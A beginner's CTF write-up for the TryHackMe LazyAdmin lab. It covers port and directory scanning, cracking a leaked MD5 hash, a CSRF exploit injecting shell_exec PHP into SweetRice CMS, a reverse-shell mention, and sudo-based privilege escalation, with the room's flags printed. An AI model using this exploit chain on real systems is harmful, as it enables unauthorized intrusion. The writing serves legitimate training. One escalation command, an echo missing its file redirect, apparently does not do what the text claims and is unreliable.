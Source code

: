 I recently re-sparked my interest for InfoSec and started dabbling with a couple of hacking platforms and war games and stumbled over [TryhackMe](https://www.tryhackme.com), which so far has been an absolutely fantastic learning resource for information security.

This post marks my first CTF write up, so if you stumble over this, keep this in mind and if you have suggestions for improving the flow of the post, or the general content, feel free to send me en email about that!

With all of that out of the way, let's jump into the [LazyAdmin](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe.

## Lazy Admin

To start off, we'll use `nmap` to find out which ports are running:

```bash
nmap  -vv -sV -sC <IP> -A -T4
```

We get the ports 22 and 80. Next, let's try to navigate to the website on port 80. There we see the basic Apache welcome page.

To see what else is running on this web server, let's use `gobuster` to find other files and directories

```bash
gobuster -u http://<IP>/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This uses the [SecLists](https://github.com/danielmiessler/SecLists) repo's `Web-Content/big.txt` wordlist and we'll initially try for .php, .txt and .html files.

The first run gives us the `/content` folder and if we navigate there in our browser, we see an in-progress SweetRice CMS page.

At this point, it makes sense to go to [Exploit DB](https://www.exploit-db.com/) and search for SweetRice. There are several interesting CVE's, but we don't know the version yet.

Let's run `gobuster` again, to find resources inside of `content`:

```bash
gobuster -u http://<IP>/content/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This gives us several things, such as the `/as` folder and the `/inc` folder. Under `/as` we find an administrator login, which is what we were looking for. Inside the `/inc` folder, interestingly, we find MySQL backup, which we immediately download.

Also, there are license.txt and changelog files and folders, which provide us with some info about the version - we're dealing with 1.5.0, so we can use the latest exploits on Exploit-DB!

Opening the downloaded MySQL backup, we stumble upon the password and the user name. The password is `42f749ade7f9e195bf475f37a44cafcb` and the user name is `manager`.

We can use `john the ripper` to crack the password, which looks like MD5:

```bash
john pw.txt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-MD5
```

We use the `rockyou` password list and immediately get `Password123` as a password.

With that, we can login to the Admin page! Nice.

Next, let's check out the exploits at Exploit DB. There, we find [this](https://www.exploit-db.com/exploits/40700) exploit, which enables us to do PHP code execution via a CSRF bug.

This sounds promising, as with remote code execution, we should be able to read out the user and root flag from the server, or simply open a reverse shell, letting us basically connect to the server via ssh.

If we look at the exploit on Exploit-DB, it looks like the following:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://<IP>/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hacked"/>
            <textarea type="hidden" name="adv">
                ... add php code here ...
            </textarea>;
        </form>
    </body>
</html>
```

We create a new .html file and paste this code in. However, instead of the `Hacked` message, we can use the `shell_exec` method to execute shell commands on the server, so we replace it with:

```php
$output = shell_exec('ls /home');
echo "<pre>$output</pre>";
```

This directs us to the Ads page in the SweetRice backend, with a new ad active. If we now access this using `http://<IP>/content/inc/ads/hacked.php` in this case, then we see the executed PHP code, which shows us the contents of `/home`.

This way, we can see that the username is `itguy`. Next we can `ls /home/itguy` to see the files inside of the user's folder. There, we can already get the user flag using `cat /home/itguy/user.txt`. The flag is `THM{63e5bce9271952aad1113b6f1ac28a07}`.

With this exploit, we could also execute a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), which together with a locally opened netcat session (`nc -lvnp 4444`) enables us to gain access to the server.

In this case, we'll just continue to execute commands using the exploit though. The next thing we need to do is to privilege-escalate. We execute `sudo -l` and see, that the `www-data` user, which is the user running the web app, can execute the `backup.pl` file.

Next, we can look at the file using `cat /home/itguy/backup.pl` and we see that it simply calls `/etc/copy.sh`, which is a file we have access to. Now we have a way to get to the root flag - we overwrite the `/etc/copy.sh` file with a script for reading out the `/root/root.txt` file and we can do all of that in our CSRF exploit:

```php
echo "<pre>$output</pre>";
$output1 = shell_exec('echo "cat /root/root.txt > /etc/copy.sh"');
echo "<pre>$output1</pre>";
$output2 = shell_exec('sudo /usr/bin/perl /home/itguy/backup.pl');
echo "<pre>$output2</pre>";
```

When we execute the exploit again, we get the root flag `THM{6637f41d0177b6f37cb20d775124699f}`.

All Done!

## Conclusion

What a nice entry-level CTF and one of the first unguided ones I was able to, after going through almost all entry-level THM rooms mentioned [here](https://blog.tryhackme.com/free_path/) before, finish without looking at any writeups, or any external help myself!

#### Resources

* [TryHackMe LazyAdmin](https://tryhackme.com/room/lazyadmin)
